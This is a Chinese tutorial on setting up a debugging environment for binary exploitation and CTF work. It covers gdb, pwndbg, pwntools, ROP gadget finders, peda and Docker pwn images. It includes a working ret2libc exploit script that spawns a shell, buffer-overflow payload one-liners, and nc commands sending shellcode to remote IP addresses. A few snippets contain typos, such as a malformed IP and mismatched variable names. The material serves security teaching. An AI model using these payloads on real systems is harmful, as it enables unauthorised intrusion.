




# 漏洞调试环境搭建

## 常用工具与开发框架

### gdb与ida

最基础的必备调试工具。

```
$ file ret2libc
$ ldd ret2libc # 查看使用的libc.so路径
$ gdb attach 459
$ gdb ./ret2libc
$ gdb -q --args bof AAAA          # 带命令行参数运行
(gdb) r
(gdb) r AAAAA                     # 带命令行参数运行
(gdb) r `echo AAAA\x40\x80\x00`   # 带命令行参数运行
(gdb) r `python -c "print 'A'*22+'\x83\x84\x04\x08'"`
(gdb) r < a.txt                   # gdb调试输入
(gdb) b vulnerable                # 在vulnerable函数断点
(gdb) b *0x08048447
(gdb) display /5i $pc
(gdb) ni
(gdb) x/16wx $esp                 # 查看寄存器指向内存
(gdb) x/gx $rsp                   # 查看寄存器指向内存(64位，用于x64)
(gdb) x/200xb $esp
(gdb) x/20i 0x80484b6
(gdb) info registers
(gdb) info registers eip
(gdb) i r eip
(gdb) i r
(gdb) quit

$ ulimit -c
$ ulimit -c unlimited # Create core files
$ ulimit -a
[core file size (blocks, -c) unlimited]
$ gdb --core core

```


### pwndbg

[pwndbg](https://github.com/pwndbg/pwndbg) 是目前广泛使用的漏洞调试插件，能方便的查看比如got、堆信息、fastbins等结构体。命令示例：

```
pwndbg> checksec                # 查看二进制保护情况，确定GOT是否可写
pwndbg> got                     # 查看got
pwndbg> fastbins                # 查看fastbin链
pwndbg> p main_area.fastbinsY   # 查看fastbin
pwndbg> heapbase                # 查看heapbase地址，这里为0x98f000
pwndbg> heapinfo                # 查看堆信息
pwndbg> x/40gx 0x98f000         # 查看指定内存，例如确定堆内存分布
pwndbg> magic           # 查看一些常用的关键函数或变量地址，如system、__malloc_hook、__free_hook、__realloc_hook等
pwndbg> xinfo 0x7f6253899830    # 查看虚拟地址在镜像文件中对应的偏移量
pwndbg> telescope 0x6020C0      # 对目标地址内存尝试递归解引用，例如对bss段地址查看全局变量
pwndbg> telescope 0x6020C0 20
pwndbg> telescope 0x602000      # 也可以用来查看GOT表，其中0x602000是got地址
pwndbg> stack 20                # 查看栈
pwndbg> fmtarg 0x7ffe9d15ea58   # 计算指定栈地址距栈顶的距离，可以用于辅助构造格式化字符串
```

### pwntools

[pwntools](https://github.com/Gallopsled/pwntools)  由rapid设计，旨在让使用者简单快速的编写exploit，集成了很多工具，例如shellcode生成、ROP链生成等。可以方便的在远程exp和本地exp的转换，测试成功后只需要简单的修改一条语句就可以马上进行远程攻击。

**安装**

```
pip install pwntool   # 安装 pwntools
```

**完整EXP示例**

```
#!/usr/bin/env python
from pwn import *
#context(arch='i386', os='linux', endian='little', log_level='debug')
#context.log_level = 'debug'         # 调试状态时可以回显一些调试信息
elf = ELF('./ropasaurusrex')
libc = elf.libc
#libc = ELF('libc.so.6')             # 实际攻击时换成对方提供的libc.so
vulfunc = 0x080483f4
write_plt = elf.plt['write']
write_got = elf.got['write']
print('write_plt={}'.format(hex(write_plt)))
print('write_got={}'.format(hex(write_got)))

p = process(elf.path)                # 本地测试
# p = remote('127.0.0.1',10001)      # 远程攻击
print('[+] PID: {}'.format(proc.pidof(p)))
# pause()                            # 调试需要时可以pause()，比如做gdb附加操作
p.recvuntil('> ')

payload = b'A' * 0x8c
payload += p32(write_plt)
payload += p32(vulfunc)
payload += p32(1)
payload += p32(write_got)
payload += p32(4)
p.send(payload)

write_addr = u32(p.recv(4))
libc_base = write_addr - libc.sym['write']
system_addr = libc_base + libc.sym['system']
exit_addr = libc_base + libc.sym['exit']
binsh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))

payload = b'A' * 0x8c
payload += p32(system_addr)
payload += p32(exit_addr)    # or p32(0xdeadbeef)
payload += p32(binsh_addr)
p.send(payload)

p.interactive()
```

**常用用法**

以下列出了pwntools常用用法，另外还有更多功能，比如汇编反汇编、搜索gadget、生成shellcode等等，可以查找文档或参考后面实际案例。

```
# 上下文配置
context.log_level = 'debug'               # debug模式，调试时会输出DEBUG信息
context.arch='amd64'                      # 指定64位配置，会影响到比如flat()处理整数采用32位还是64位
context(arch='i386', os='linux', endian='little', log_level='debug')  # 也可以这样配置

# 基本io操作
io = process("./test")                    # 连接本地程序
io = remote("127.0`1.0.1",10001)          # 远程连接
io.close()                                # 关闭连接
io.recv(numb = 2048, timeout = default)   # 接受数据，numb指定接收的字节，timeout指定超时时间
io.recvline(keepends=True)                # 接受一行数据，keepends为是否保留行尾的\n
io.recvuntil("Hello,World\n", drop=false) # 接受数据直到我们设置的标志出现
io.send(data)                             # 发送数据
io.sendline(data)                         # 发送一行数据，相当于在数据后面加\n
io.sendline(':', data)                    # 相当于recvuntil+send组合，先接收到指定标志再发送
io.sendlineafter(':', data)               # 相当于recvuntil+sendline组合，先接收到指定标志再发送
io.recvall()                              # 一直接收直到EOF
io.recvrepeat(timeout = default)          # 持续接受直到EOF或timeout
io.interactive()                          # 直接进行交互，通常在取得shell之后使用

# ELF/libc文件操作
elf = ELF('./ropasaurusrex')
# context.binary = "./pwn"                # 或者也可以这样获取
# elf = context.binary
print hex(elf.address)                    # 文件装载的基地址0x400000
print hex(elf.sym["printf"])
print hex(elf.got['write'])               # GOT的地址0x60b070
print hex(elf.plt['write'])               # PLT的地址0x401680
libc = elf.libc                           # 获取可执行程序对应的libc对象
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")   # 也可这样指定全路径获取libc对象
# libc.address = libc_start_main_addr - libc.symbols['__libc_start_main']
print hex(libc.sym['system'])             # libc函数system偏移0x401680
print hex(libc.search('/bin/sh').next())  # 字符串/bin/sh的偏移(python2)
print hex(next(libc.search('/bin/sh'))    # 字符串/bin/sh的偏移(python2/python3)
sendvbuf_addr = u32(p.recv(4)) 
libc_base = setvbuf_addr - libc.sym['setvbuf']
write_addr = libc_base + libc.sym['write']
binsh_addr = libc_base + next(libc.search('/bin/sh'))

# 数据字符串和地址互相转换
# pack：p32，p64
# unpack：u32，u64
payload = 'A'*128
payload += p32(elf.plt['write'])
payload += p32(vulfunc_addr)
payload += p32(1)
payload += p32(elf.got['write'])
payload += p32(4)
# leak libc 地址后计算指定函数偏移
sendvbuf_addr = u32(p.recv(4))                       # 读取泄露地址
libc_base = setvbuf_addr - libc.sym['setvbuf']       # 根据泄露地址和符号计算偏移
write_addr = libc_base + libc.sym['write']           # 手动加上偏移计算指定符号地址
# 也可通过对libc.address赋值自动获取目标函数地址
libc.address = int(p.recvuntil('.', drop = True), 16) - 0x20830         # 偏移可使用xinfo <address>获取
libc.address = u64(p.recvuntil("\x7f")[-6:]+'\0\0') - libc.sym["free"]  # 也可以直接获取libc.sym[]偏移
print('libc={:0x}'.format(libc.address))  
assert libc.address & 0xfff == 0                     # libc.address正常应该是0x1000对齐的
system_addr = libc.sym['system']                     # 如果纠正了libc.address，libc.sym['system']就是实际地址
payload = flat('0' * 0x50, '00000000', 0x61, 0xdeadbeef)   # flat函数也能方便的拼接payload
payload = cyclic(n = 8, length = 0x30)                     # 生成指定序列的字符串，通常用于定位溢出点

# 除了u32\p32\u64\p64，也有通过如下方式转换的案例
puts_addr = int(p.recvline().strip(),16)
puts_addr = u32(p.recvn(5)[1:])
puts_addr = u64(p.recvuntil('Go')[1:7]+'\x00'*2)
puts_addr = u64(p.recvuntil('\n')[:-1].ljust(8,'\0'))
```

**参考文档**

> http://pwntools.com/
> https://github.com/gallopsled/pwntools
> https://pwntools.readthedocs.io/en/latest/install.html


### Gadget查找工具

简单gadget，用objdump就可以轻松找到，也有更方便的工具可以使用。

ROPgadget https://github.com/JonathanSalwan/ROPgadget
Ropper https://github.com/sashs/Ropper
rp https://github.com/0vercl0k/rp
ROPEME: https://github.com/packz/ropeme
xrop https://github.com/acama/xrop

```
# 使用rp寻找gadgets
# -f 指定搜索gadget的ELF文件
# -r 参数指定gadget最小长度
$ rp -f ropasaurusrex -r 3
$ rp -f /lib/i386-linux-gnu/libc.so.6 -r 3

# 使用ROPgadget查找gadget：
$ ROPgadget.py --help
$ ROPgadget.py --binary ropasaurusrex --only "pop|ret"
$ ROPgadget.py --binary ropasaurusrex | grep leave
$ ROPgadget.py --binary libc.so.6 --only "pop|call" | grep rdi
$ ROPgadget.py --binary libc.so.6 --only "pop|ret" | grep rdi
```


### OneGadget

http://github.com/david942j/one_gadget

```
$ one_gadget libc.so.6
0x3d0d3 execve("/bin/sh", esp+0x34, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x34] == NULL

0x3d0d5 execve("/bin/sh", esp+0x38, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x38] == NULL

0x3d0d9 execve("/bin/sh", esp+0x3c, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x3c] == NULL
```


### libheap

堆漏洞利用插件

https://github.com/cloudburst/libheap 

安装方法如下，或参考官方文档：

```
git clone https://github.com/cloudburst/libheap
pip install --user ./libheap/
echo "python import sys" >> ~/.gdbinit
echo "python sys.path.append('/root/.local/lib/python2.7/site-packages/')" >> ~/.gdbinit
echo "python from libheap import *" >> ~/.gdbinit
```

> 注意第4行命令用全路径，自测使用~相对路径没找到libheap包
>
> 另外使用时要编辑site-packages/libheap/libheap.cfg，手动配置下当前的libc版本

### peda

gdb的一个插件，有很多方便的功能，例如检查二进制用了哪些保护措施，搜索指定的jumpcode地址，并且美化gdb调试界面。

如下命令即可安装：

```
 $ wget http://ropshell.com/peda/peda.tar.gz # 也可到github下载
 $ tar zxvf peda.tar.gz
 $ echo "source ~/peda/peda.py" >> ~/.gdbinit
```

> ubuntu自带高版本无法装peda插件。google搜索downgrade gdb,重新安装低版本gdb。

安装完毕使用gdb调试时就可以看到效果了，可以直观的看到当前代码、栈等数据。用法示例：

```
 $ gdb ./test
 gdb-peda$ checksec         # checksec检查保护措施
 CANARY : disabled
 FORTIFY : disabled
 NX : ENABLED
 PIE : disabled
 RELRO : Partial
 gdb-peda$ jmpcall rsp       # 使用peda查找jumpcode
 0x43687d : call rsp
 0x43688b : call rsp
 0x43e9d4 : call rsp
 0x441b85 : call rsp
 0x441d8a : call rsp
 gdb-peda$ vmmap
 gdb-peda$ got
 gdb-peda$ stack 30 # 查看构造的rop链
 gdb-peda$ xinfo 0x8049704 # 查看指定地址所在的虚拟内存区域和属性
 gdb-peda$ telescope 0x8049700
```


### checksec

checksec.sh 是一个用于检查目标二进制保护措施的脚本，可以检查Linux下编译器启用的缓解机制的情况，例如重定位只读(RELRO)、栈Canary、数据不可执行(NX)、位置无关代码(PIE)。pwndbg和peda中也集成了相关功能。

http://www.trapkit.de/tools/checksec.sh

https://github.com/slimm609/checksec.sh

```
$ checksec mailbox
CANARY : disabled
FORTIFY : disabled
NX : ENABLED
PIE : disabled
RELRO : disabled
```

### zio

[https://github.com/zTrix/zio](https://github.com/zTrix/zio)
接口简单易用，但很久没更新了


## 实战环境搭建和调试技巧

- 虚拟机 vs Docker

  调试x86或x64下的简单缓冲区溢出，构造ROP等，对glibc版本等基本无要求，最简单的方式是使用虚拟机安装Ubuntu。但涉及到复杂的堆漏洞利用，不同的libc版本其堆管理实现细节不同，需要安装几个不同的Ubuntu版本，占用空间大，而且需要分别配置调试环境，这时候用docker或许是更便利的选择。当然对docker使用不熟悉的话，可能需要先学习一下docker的用法，可以根据实际情况选取合适的方案。

- gdb直接调试

  对于一些简单的漏洞调试，比如通过命令行触发漏洞，直接使用gdb就可以调试：

  ```
  $ gdb -q --args ./bof $(python -c 'print("A"*76 + "BBBB" + "A"*(132-4-76))')
  # -q 参数可以使gdb不输出一些辅助信息
  # --args指定命令行参数
  ```

- 双窗口调试

  对于复杂的漏洞利用，通常需要边开发exploit同时边配合gdb进行调试，为方便可以开左右两个终端窗口，左边用于运行gdb调试目标程序，右边使用vim或GUI编辑器编写exploit和执行exploit。

  **技巧1：使用tmux分割窗口**

  首先安装tmux：

  ```
  apt-get update 
  apt-get install tmux
  ```

  在tmux中，执行`tmux split -h`命令就可以将当前tmux会话分成左右两个窗口，这样可以方便的同时进行gdb调试和开发运行exploit。

  > tmux默认控制组合键是Ctrl+B(可配置)，在分割窗口情况下，使用Ctrl+B,O组合键可以切换左右两个窗口

  **技巧2：gdb附加目标进程**

  调试的exploit时候，可以一边修改调试和运行exploit脚本，一边运行gdb附加目标进程进行调试。在脚本中关键的地方可以通过pause()或者raw_input()来实现暂停，用来配合gdb一步步调试。脚本运行后，运行到pause()处暂停，这时候可以进行gdb附加进程，一般步骤是要先看下目标进程pid，再gdb附加，再设置断点并运行，也可以运行如下命令快速附加目标进程并断点：

  ```
  gdb -q -p `pidof pwn` -ex "b *0x40BC05" -ex "c"
  ```

  就这样左边gdb附加调试，右边vim编辑器开发，开发时可以将pwntools的DEBUG功能打开，可以查看到更详细的调试信息。

  

  

  **技巧3：vim中快速运行脚本**

  使用vim编辑器编辑脚本时，每次编辑完毕保存退出，再python命令执行脚本，比较繁琐。事实上vim可以通过编辑~/.vimrc配置文件实现一键运行当前exploit脚本，而不需要先退出vim再通过python exploit.py执行，可以提高效率，相关配置如下：

  ```
  set number
  
  " F5 to run sh/python3
  map <F5> :call CompileRunGcc()<CR>`
  func! CompileRunGcc()
    exec "w" 
    if &filetype == 'sh'
      :!time bash %
    elseif &filetype == 'python'
      exec "!time python3 %"
    endif
  endfunc
  ```

  这样编辑完脚本之后，不必退出vim编辑器，直接F5即可运行当前脚本。

  **技巧4：pwntools的gdb调试接口支持**

  上面介绍通过pause()暂停配合gdb附加进程可以方便的边开发exp边调试。事实上pwntools框架也支持gdb自动附加调试，示例脚本如下：

  ```
  #/usr/bin/env python
  from pwn import *
  context.log_level = 'debug'
  context.terminal = ['tmux','split','-h']
  p = process('./ropasaurusrex')
  
  # Debugging
  gdbscript = "b *0x0040069a"
  pid = gdb.attach(p, gdbscript=gdbscript)
  # gdb.attach(p)    # 或直接这样使用也可以
  
  payload = b'A' * 0x8c
  payload += p32(system_addr)
  payload += p32(0xdeadbeef)
  payload += p32(binsh_addr)
  p.send(payload)
  
  p.interactive()
  ```

  在tmux中运行上面脚本，当运行到gdb.attach(p)处，当前tmux窗口将自动分成左右两个窗口，并调用gdb附加进程，可以进一步调试。gdbscript是gdb附加进程后默认执行的调试命令，如不需要也可以省略。

  **技巧5：菜单交互类程序技巧**

  在CTF比赛中经常会遇到菜单交互模式的程序，通常分别对应增删改查这样的逻辑，在堆漏洞利用等题目中比较常见。

  处理这种模式的程序时，为方便各接口调用，通常首先把这些操作封装成一个个函数。同样可以开左右两个窗口，先在左边窗口运行目标程序，熟悉程序交互逻辑，处理交互输入输出；同时在右边窗口将交互的输入输出通过python封装成基本接口函数，与程序交互功能增删改查逻辑一一对应。各个接口函数实现之后，直接调用接口函数就可以方便的进行exp开发和调试。

  

  


- 使用Docker搭建x86/x86_64调试环境

  **Docker安装与使用**

  下载并安装Docker Desktop：https://download.docker.com/mac/stable/Docker.dmg。安装完后可以通过docker命令运行和管理docker。另外通过Docker的托盘图标打开Dashboard，可以快速查看和管理当前运行的docker实例。

  常用Docker命令示例：

  ```
  docker images ls                                     # 查看本地已有镜像
  docker run hello-world                               # 运行自带hello world测试镜像
  docker ps                                            # 查看当前运行镜像
  docker pull auxy233/ancypwn:18.04                    # 下载镜像
  docker image tag auxy233/ancypwn:18.04 ancypwn:18.04 # 命名
  docker run -i -t httpd /bin/bash                     # 运行镜像并进入
  docker run -it -v ~/pwn:/pwn ancypwn:18.04 /bin/bash
  docker run -d -p 80:8080 httpd                       # 后台运行镜像，镜像8080端口映射到主机80端口
  docker cp ~/note [container-id]:/pwn/                # 本地文件拷贝到容器内
  docker exec -it [container-id] /bin/bash             # 进入已有容器
  docker stop httpd                                    # 关闭镜像
  docker build -t test .                               # 编译当前目录的docker，并命名为test
  ```

  **ancypwn环境搭建**

  参考 https://github.com/Escapingbug/ancypwn 搭建环境，特点：基于18.04、18.10等Ubuntu，包括不同的libc版本，已经自动集成pwntool、ROPGadget等工具调试方便。安装过程如下：

  ```
  # 下载docker镜像，并打上TAG
  docker pull auxy233/ancypwn:16.04
  docker pull auxy233/ancypwn:18.04
  docker pull auxy233/ancypwn:18.10
  docker image tag auxy233/ancypwn:16.04 ancypwn:16.04
  docker image tag auxy233/ancypwn:18.04 ancypwn:18.04
  docker image tag auxy233/ancypwn:18.10 ancypwn:18.10
  
  # 安装 ancypwn launcher和后端
  pip3 install ancypwn
  pip3 install ancypwn-backend-unix
  ```

  使用方法如下：

  ```
  docker image ls     # 查看当前可用镜像
  ancypwn run         # 启动docker镜像，将进入shell
  ancypwn run --image YOUR_IMAGE --tag YOUR_TAG   # 可以启动其他自己的镜像
  ancypwn run --image ancypwn --tag 18.04         # 启动指定的镜像
  ancypwn attach      # exit退出docker shell后，还可以再attach上去重新取得shell
  ancypwn end         # 停止docker
  ```

  > 运行ancypwn run时遇到了报错，有以下两种原因：
  >
  > - pip3安装包时依赖的第三方包没有安装，经排查报错发现是six包没有安装，执行pip3 install six，解决
  >
  > - docker desktop后台程序没有运行，需先启动docker desktop再尝试

  ancypwn run执行之后，会自动挂载当前目录到/pwn，这时候往host机器的~/pwn目录下放上你的二进制，就可以直接在容器的/pwn里看到了，然后可以就可以进行pwn开发调试了。

  调试时，同样可以使用上面介绍的双窗口调试，使用gdb手动附加进程，或pwntools的gdb.attach()自动附加进程。

  > 该docker镜像默认未安装tmux，需要在docker内先apt-get update && apt-get install tmux安装tmux。

  > 另外ancypwn本身也支持通过gdb.attach()方式方便的进行exploit调试，但需要安装额外终端套件的终端支持包，如需要可以参考ancypwn的文档。

  > 镜像也可以使用来自长亭科技的rop教程讲师的个人环境：https://hub.docker.com/repository/docker/beswing/swpwn
  >
  > docker pull beswing/swpwn:18.04
  > docker image ls
  > swpwn attach

- 其他docker方案

  除了上面的ancypwn，其他还有现成的pwn docker脚本，以下几个供参考，当然你也可以按需构建自己的docker镜像，push到docker hub中

  > https://github.com/skysider/pwndocker
  >
  > https://github.com/Eadom/ctf_xinetd


## 附：常见调试问题补充


### 在x64环境编译32位程序

有时候本地调试环境为x64，可能需要编译调试32位程序，安装必要的包后，编译时gcc加上-m32参数即可：

```
apt-get install gcc-multilib
apt-get install libc6-dev-i386
gcc -m32 format.c -o format
```


### x64与x86架构差异

- x64内存地址范围由32位变成了64位，但即便内存地址有64位长，用户空间也只能使用前47位，可使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。那也就意味着0x4141414141414141会抛出异常而0x0000414141414141是安全的。在调试缓冲区溢出等漏洞时，通常会用AAAA等字串填充缓冲区覆盖返回地址或函数指针，这样在32位上地址为合法地址0x41414141，在x64环境下为0x414141414141414141，但在跳转时，PC指针并没有指向类似于0x41414141那样地址，而是停在了存在漏洞的函数中原因就是内存地址不能大于0x00007fffffffffff，虽然PC不能跳转到那个地址，我们依然可以通过栈来计算出溢出点。因为ret相当于“pop rip”指令，所以我们只要看一下栈顶的数值就能知道PC跳转的地址了。

  ```
   (gdb) x/gx $rsp
   0x7fffffffe188: 0x3765413665413565
  ```

- 函数参数的传递方式发生了改变，x86中参数都是保存在栈上,但在x64中的前六个参数依次保存在RDI, RSI, RDX, RCX, R8和 R9中，如果还有更多的参数的话才会保存在栈上。参考调用约定相关内容。这样在x64和x86构造rop，所采用的指令布局是不一样的。详细参考ROP构造内容。

  

### 使用GDB调试正常而实际利用失败的原因

- gdb和实际运行过程在栈空间布局上存在一些差异，导致调试时定位的地址和实际情况不一样。这种情况可以开启coredump来定位实际地址，调整利用脚本。
- 系统可能启用ASLR，导致每次运行的shellcode地址不同。需要关闭ASLR或使用ASLR绕过技巧来完成利用。
- 通过 `cat payload.txt | ./level1` 、 `./level1 < payload.txt` 以及在gdb中使用 `run < payload.txt`类似这样的命令可以触发漏洞，但不能返回交互式shell。建议使用pwntools来调试，不要使用这种原始的方式调试。


### 开启coredump辅助调试

有时在gdb调试情况下定位了shellcode地址，到实际利用时地址又不对，原因是gdb的调试环境会影响buf在内存中的位置，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们直接执行时，buf的位置会固定在别的地址上。解决方法就是开启coredump

```
$ ulimit -c unlimited 不限制core文件的大小
$ cat /proc/sys/kernel/core_pattern 查看core文件位置与格式
$ echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern
$ echo 1 > /proc/sys/fs/suid_dumpable 设置生成core文件
```

开启之后，当程序出现内存错误的时候，系统会生成一个coredump文件在tmp目录下(如果上面不设置core_pattern，则coredump也可能在目标程序当前目录生成)。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。

```
 $./level1
 ABCDAAAAAAAA(...skip...)AAAAAAAAAAA
 Segmentation fault (core dumped)
 
 $ gdb level1 /tmp/core.1433844471 
 Core was generated by `./level1'.
 Program terminated with signal 11, Segmentation fault.
 #0 0x41414141 in ?? ()
 
 (gdb) x/10s $esp-144
 0xbffff290: "ABCD", 'A' <repeats 153 times>, "\n\374\267`\204\004\b"
 0xbffff335: ""
```

因为溢出点是140个字节，再加上4个字节的ret地址，我们可以计算出buffer的地址为$esp-144。通过gdb的命令 “x/10s $esp-144”，我们可以得到buf的地址为0xbffff290，就是shellcode地址。

也可以通过如下命令分析coredump文件

```
 $ gdb -q -c core.11.stack5.2083
 [New LWP 2083]
 Core was generated by '/opt/protostar/bin/stack5'.
 Program terminated with signal 11, Segmentation fault.
 #0 0x41414141 in ?? ()

 (gdb) x /40xw $esp-100
 0xbffffcdc: 0x080483d9 0xbffffcf0 0xb7ec6165 0xbffffcf8
 0xbffffcec: 0xb7eada75 0x41414141 0x41414141 0x41414141
 ...
```

通过coredump，可以查看crash时的backtrace信息和寄存器信息等

```
 (gdb) backtrace
 (gdb) i r
 (gdb) i r $esp
 (gdb) x/16wx $esp-140
```


### 常见手工处理数据输入技巧

**命令行参数输入**

```
./level05 $(python –c ‘print “\x90”* 50 + “\x31….\x80”+”\x90”*n+”\xff\xff\xff\xbf”*m’)
```

**标准输入输出交互**

```
python -c "print 'A'*65" | ./stack0
python -c "print 'A'*64+'\x64\x63\x62\x61'" | xargs ./stack1
python -c "print 'A'*100+'B'*4" | /opt/protostar/bin/stack5
./level3 < payload.txt
(gdb) run < payload.txt
```

> 以上输入可以用于触发漏洞，但管道可能导致无法正确返回交互shell，所以还是建议使用pwntools来完成这些工作

**文件输入**

**网络输入**

```
python -c 'print ("1\n2\n" + "A" * 44 + "\x31\xc0\x50..(略)...\x0b\xcd\x80\n" + "d\n")' | nc -q -1 218.2.197.251 1234
cat shell2.bin | nc 218.2.197.249 1337
python exp.py | nc 218.2.197.249 1337
nc 218.2.197.249 1337 < data.txt
```

**绑定目标程序到端口**

标准输入输出型程序，可以通过socat或xinetd将其变成网络服务，然后只要远程连接就可与程序交互。socat命令如下：

```
$ socat TCP4-LISTEN:1337,reuseaddr,fork EXEC:./level1
```

随后这个程序的IO就被重定向到10001这个端口上了，并且可以使用 nc 127.0.0.1 1337来访问我们的目标程序服务了。

现在如果是使用pwntool或zio实现的exp的话，只要把`p = process('./level1')`换成`p = remote('127.0.0.1',1337)`即可。

要注意的是，把程序的io重定向到socket上的时候，有时候如果发送的数据包过大，read()有时会截断payload，造成payload传输不完整造成攻击失败。这时候要多试几次即可成功。如果进行远程攻击的话，需要保证ping值足够小才行（局域网）。
